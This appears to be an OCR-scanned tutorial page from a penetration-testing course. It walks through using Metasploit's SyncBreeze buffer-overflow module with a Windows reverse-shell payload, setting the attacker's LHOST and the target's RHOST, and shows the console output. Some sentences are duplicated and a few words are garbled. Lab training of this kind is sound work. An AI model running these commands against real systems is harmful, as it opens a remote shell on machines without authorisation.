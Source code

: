  3 Sync Breeze Enterprise v10.1.16

 To retrieve a listing of all payloads that are compatible with the currently selected exploit module,we run show payloads as shown in Listing

 To retrieve a listing of all payloads that are compatible with the currently selected exploit module,we run show payloads as shown in Listing.
 
 To retrieve a listing of all payloads that are compatible with the currently selected exploit module,we run show payloads as shown.
 
 msf5 > use exploit/windows/http/syncbreeze_bof
msf5 exploit(windows/http/syncbreeze_bof) > show payloads
Compatible Payloads
===================
Name Rank Description
---- ---- -----------
..................
windows/shell_bind_tcp normal Windows Command Shell, Bind TCP Inli
windows/shell_hidden_bind_tcp normal Windows Command Shell, Hidden Bind T
windows/shell_reverse_tcp normal Windows Command Shell, Reverse TCP I
windows/speak_pwned normal Windows Speech API - Say "You Got 

 
 we can specify a standard reverse shell payload (windows/shell_reverse_tcp) with
 set payload and list the options with show options:
 
 msf5 exploit(windows/http/syncbreeze_bof) > set payload windows/shell_reverse_tcp
payload => windows/shell/reverse_tcp
msf5 exploit(windows/http/syncbreeze_bof) > show options
Module options (exploit/windows/http/syncbreeze_bof):
 Name Current Setting Required Description
 ---- --------------- -------- -----------
 Proxies no A proxy chain of format type:host:port[,type:ho
 RHOST yes The target address
 
 
 The “Exploit target” section below the payload settings lists OS or software versions vulnerable tothis exploit. 
 
 In this exploit module, a single static return address for ourversion of SyncBreeze will work for multiple versions of Windows. In other exploits, we will oftenneed to set the target (using set target) to match the environment we are exploiting.
 
 By setting the reverse shell payload for our exploit, Metasploit automatically added some new “Payload options”, including LHOST (listen host) and LPORT (listen port), which correspond to thehost IP address and port that the reverse shell will connect to. 
 
 Note that LPORT is set to a defaultvalue of 4444, which is fine for our purposes.
 
 Let’s go ahead and set LHOST and RHOST to defineour attacking host and target host respectively.
 
 msf5 exploit(windows/http/syncbreeze_bof) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(windows/http/syncbreeze_bof) > set RHOST 10.11.0.22
RHOST => 10.11.0.22
 
 After setting LHOST to our Kali IP address and RHOST to the Windows host IP address, we can use check to verify whether or not the target host and application are vulnerable. 
 